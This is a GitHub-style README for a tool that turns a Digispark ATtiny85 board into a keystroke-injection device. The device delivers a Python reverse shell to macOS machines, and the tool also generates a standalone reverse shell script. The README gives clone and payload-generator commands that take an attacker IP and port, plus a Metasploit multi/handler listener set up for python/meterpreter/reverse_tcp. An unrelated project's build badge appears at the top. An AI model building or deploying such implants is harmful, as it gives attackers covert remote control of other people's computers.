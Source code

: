 ![Build Status](https://github.com/subsurface/subsurface/workflows/Mac/badge.svg)
## Digispark reverse shell

The script creates either reverse shell python script or arduino sketch for digispark. The script is compatible with metasploit.</br>
This Digispark sketch is intended to run on OS X operating System.

## What is digispark?
Digispark is a Attiny85 based microcontroller that can be used as trusted HID-MIDI device. This project addresses its vulnerbility, which injects malicious code into the machine. 

## Features

- Creates a reverse shell python script
- Creates a Arduino sketch for digispark

## Arduino Configuration

To flash the digispark module, you need to add this link to your boards maneger</br>
Arduino > File > Preferences > Additional Boards Manager URLs:
```
https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
```

Once the link is added, head over to Tools > Bord > Boards Manager, search for "Digistump AVR Boards" and make sure it is installed.


## Installation

Clone this repository
``` 
git clone https://github.com/https-sam/digispark_reverse_shell.git
```

```
cd scripts
```

`-p and -i tags` are required.
```
python3 payloadGenerator.py -i IP ADDRESS -p PORT
```

`-py True` is optional, which only creates a python reverse shell script.
```
python3 payloadGenerator.py -i IP Address -p PORT -py True
```


## Set up

Metsploit can be used as a listener
``` 
msfconsole
use multi/handler
set payload python/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport PORT
run
````



## License

MIT


- [Digistump](https://github.com/digistump/DigisparkArduinoIntegration/blob/master/libraries/DigisparkKeyboard/DigiKeyboard.h) - Library for digispark
- [Micronucleus](https://github.com/micronucleus/micronucleus) - processor
- [Metasploit](https://github.com/rapid7/metasploit-framework) 


